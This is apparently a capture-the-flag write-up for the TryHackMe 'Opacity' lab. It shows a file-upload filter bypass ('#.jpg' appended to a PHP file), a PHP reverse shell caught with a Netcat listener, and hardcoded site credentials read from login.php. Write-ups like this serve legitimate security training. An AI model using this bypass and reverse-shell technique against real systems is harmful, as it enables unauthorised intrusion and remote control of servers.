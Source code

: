 We have a subdirectory cloud where we can upload image files only. I tried uploading a JPEG file first, and it got uploaded. Then, I tried to upload a text file, but it didn't get uploaded.

As the site uses PHP, I can upload a PHP reverse shell file and get a reverse shell by opening a listener on my machine using Netcat.
But the problem is we can't upload a PHP file. I looked for "bypassing file upload extension" on Google and came across this: https://book.hacktricks.xyz/pentesting-web/file-upload.
I looked on the site and tried some methods to bypass the filtering. But what worked for me was `<php_file>#.png/jpeg/jpg`.

I uploaded the file as `http://<My_IP:PORT>/php_reverse_shell.php#.jpg` after starting a server on the folder using Python and also started a listener on m terminal using Netcat.
After the file was uploaded, I got the reverse shell.
```
┌──(kali㉿kali)-[~/Desktop/THM/Opacity]
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.214.180] 54450
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 11:48:16 up 28 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I looked for the files and folders here and there using the shell. There exists one more user, sysadmin on the server. The user.txt file is under the sysadmin folder. But obviously no permission to read the file.

I tried to copy the file to the /tmp folder to see if I could read it there, but permission denied.

On the /var/www/html, under login.php I found some credentials:
```
$ cat login.php 
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');
...
```
I used the credentials to log in to the site, and it worked. But the site didn't yield anything. Just a normal site, with no redirection upon clicking the buttons that should redirect somewhere.

I looked inside the /var/backups to find anything and tried to read the '.bash_history' file of sysadmin, but no permission to read that as www-html.

Then I looked inside the /opt folder.
```
$ cd /opt
$ ls
dataset.kdbx
```

